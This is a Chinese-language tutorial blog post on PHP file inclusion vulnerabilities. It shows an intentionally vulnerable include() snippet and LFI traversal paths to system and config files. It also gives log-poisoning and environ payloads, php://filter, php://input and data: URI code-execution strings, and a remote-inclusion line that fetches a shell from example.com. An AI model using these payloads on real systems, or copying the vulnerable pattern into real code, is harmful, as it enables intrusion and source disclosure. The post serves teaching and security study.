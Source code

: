 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      php文件包含漏洞               # 标题 
subtitle:    #副标题
date:       2019-09-13              # 时间
author:     Von                      # 作者
header-img: img/post-bg-kuaidi.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - php

---
```


# 简介
在通过php的函数引入文件时，由于对传入的文件名没有进行有效的验证，进而导致了漏洞的产生。  
常见的文件包含函数有以下几个
``` php
include()   \\执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()  \\只要程序一运行就包含文件，找不到被包含文件时会产生致命错误，并停止脚本执行
include_once()  \\若文件中代码已被包含，则不会再次被包含
require_once()  \\若文件中代码已被包含，则不会再次被包含
```
当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。测试代码：
``` php
<?php
	$file = $_GET['file'];
	include $file;
?>
```
在同目录下有个1.txt，其内容为<? phpinfo(); ?>。则只需要访问：  
233.php?file=1.txt,即可访问到phpinfo界面。
![](/img/blog13-1.png)
而如果包含非PHP语法规范源文件时，将会暴露其源代码。
![](/img/blog13-2.png)
从上面这个例子我们可以看出,PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

# 漏洞分类
## 本地文件包含(LFI)
### 包含日志
日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:www.xxx.com<?phpinfo();?>则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

![](/img/blog13-3.png)
正常的php代码已经写入了 /var/log/apache2/access.log。然后进行包含即可。
![](/img/blog13-4.png)

**注意**
(1)除了我们包含 access.log 以外，我们还可以制造错误，然后包含 error.log
(2)如果出现包含不成功的情况，很有可能就是被 open_base_dir() 限制了
(3)实战中最好在凌晨的时候进行包含，要不然日志太大包含会失败
(4)除了 apache 和 nginx 的日志 还有很多其他的日志我们能利用，比如说 ssh 的日志

常见的路径还有以下这些:
```
?file=.htaccess    //包含同目录下的文件
?file=../../../../../../../../../var/lib/locate.db
?file=../../../../../../../../../var/lib/mlocate/mlocate.db    //linux中这两个文件储存着所有文件的路径，需要root权限
?file=../../../../../../../../../var/log/apache/error.log    //包含错误日志
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf    //获取web目录或者其他配置文件
?file=../attachment/media/xxx.file    //包含上传的附件
```

### 包含environ
利用条件:  
``` 
php以cgi方式运行，这样environ才会保持UA头。
environ文件存储位置已知，且environ文件可读
```
Apache在/proc/self/environ（环境变量）中存储各种值，例如访问者IP地址，用户代理，调用的脚本以及其他值。然后和包含日志一样,在User-agent修改成payload.

## php伪协议
### php://filter
通常情况下，当我们去包含php源码的时候，源码会被解析，我们就看不到源码了，这时候就可以利用读文件的方式读取到php源码。
常用句式：?file=php://filter/read=convert.base64-encode/resource=xxx.php,也可以用index.php?file=php://filter/convert.base64-encode/resource=index.php，效果和前面一样，只是没有read关键字，在绕过一些waf或许有用。
注意:  
php://filter在双off的情况下也可以正常使用；  
allow_url_fopen ：off/on  
alow_url_include：off/on

### php://input
可以访问原始数据的只读流(这个原始数据指的是POST数据)，将post请求中的数据作为php代码执行。  
利用条件:allow_url_include = On  
```
index.php
?file=php://input
POST:
<? phpinfo();?>
```
![](/img/blog13-5.png)

### data:URI schema
利用条件:
```
php版本大于等于php5.2
allow_url_fopen = On
allow_url_include = On
```
主要有以下两种利用方法:
```
index.php?file=data:text/plain,<?php phpinfo();?>
```
![](/img/blog13-6.png)
```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
加号+的url编码为%2b，PD9waHAgcGhwaW5mbygpOz8+的base64解码为：<?php phpinfo();?>

## 远程文件包含(RFI)
需要allow_url_fopen=On并且allow_url_include=On才能进行远程文件包含。
常见利用方法:  
```
?file=[http|https|ftp]://example.com/shell.txt
```

# 写在最后
写到这里实在是太困了，而且这几天状态也不是很好，很多东西还没有讲。唉，有机会下次补齐吧(咕咕咕)

# 参考文章
[天师的文章](https://www.k0rz3n.com/2018/11/20/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8B%20PHP%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/#1-php-input)  
[琪琪师傅的文章](http://codeqi.top/2018/03/14/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)  
[panda1g1师傅的文章](https://panda1g1.github.io/%2F2018%2F05%2F26%2F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%2F#%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%EF%BC%9A)  
[Chybeta师傅的文章](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)














